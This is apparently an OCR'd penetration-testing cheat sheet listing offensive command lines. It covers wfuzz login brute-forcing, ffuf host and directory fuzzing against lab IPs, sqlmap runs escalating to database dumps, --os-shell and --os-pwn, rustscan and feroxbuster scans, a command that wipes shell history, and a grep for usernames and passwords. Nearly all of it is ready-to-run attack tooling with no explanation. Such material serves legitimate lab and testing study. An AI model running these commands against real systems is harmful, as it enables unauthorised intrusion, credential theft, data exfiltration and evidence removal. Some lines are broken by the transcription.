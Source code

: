 ```bash

wfuzz -c -z file,users.txt -z file,pass.txt --sc 200 http://www.site.com/log.asp?user=FUZZ&pass=FUZ2Z

```

#################################################################
## FFUF
```bash
# Fuzz Host-header, match HTTP 200 responses.
ffuf -w hosts.txt -u https://example.org/ -H "Host: FUZZ" -mc 200

# Fuzz file paths from wordlist.txt
ffuf -w wordlist.txt -u https://example.org/FUZZ -mc all -fs 42 -c -v
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.156.219/FUZZ -mc 200 -fs 42 -c -v

ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://10.10.11.8:5000/FFUZ -ic -t 100
```

#################################################################
## SQLMAP
```bash
# [ + ] All Together for request.txt: NB: --level=amount of depth in url
sqlmap -r request.txt
sqlmap -r request.txt --threads=2
sqlmap -r request.txt --threads=2 --time-sec=10
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --force-ssl
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --dump
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --dump --os-shell
sqlmap -r request.txt --threads=2 --time-sec=10 --level=2 --risk=2 --force-ssl --dump --os-pwn
# [ + ] On your URL Environment Variable :
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=B --force-ssl
sqlmap -u $URL --dbms=mysql --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl

```

## RUSTSCAN
```
rustscan -a $IP

```

## Feroxbuster
```
feroxbuster --url $URL -no-recursion
feroxbuster -u $URL -t 100 -no-recursion -x html,php,txt
feroxbuster -u $URL -w /usr/share/wordlists/dirb/big.txt -t 100


history -c && rm ~/.bash_history
grep -oE '"(username|password)"\s*:\s*"[^"]*"'i
```
